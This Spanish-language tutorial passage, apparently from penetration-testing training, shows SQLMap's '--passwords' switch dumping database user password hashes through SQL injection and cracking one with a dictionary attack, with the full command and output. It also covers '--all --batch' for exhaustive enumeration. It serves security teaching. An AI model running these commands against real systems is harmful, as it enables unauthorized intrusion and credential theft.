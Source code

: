 
## DB Users Password Enumeration and Cracking

Además de las credenciales de usuario encontradas en tablas de bases de datos, también podemos intentar volcar el contenido de las tablas del sistema que contienen credenciales específicas de la base de datos (por ejemplo, credenciales de conexión). Para facilitar todo el proceso, SQLMap tiene un switch especial `--passwords` diseñado especialmente para tal tarea:

```r
sqlmap -u "http://www.example.com/?id=1" --passwords --batch

...SNIP...
[14:25:20] [INFO] fetching database users password hashes
[14:25:20] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'debian-sys-maint'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y

[14:25:20] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:25:20] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:25:20] [INFO] starting 8 processes 
[14:25:26] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass

[14:25:28] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 14:25:28 /2020-09-18/
```

Tip: El switch '--all' en combinación con el switch '--batch', hará automáticamente todo el proceso de enumeración en el objetivo en sí, y proporcionará todos los detalles de enumeración.

Esto básicamente significa que todo lo accesible será recuperado, potencialmente ejecutándose durante mucho tiempo. Necesitaremos encontrar los datos de interés en los archivos de salida manualmente.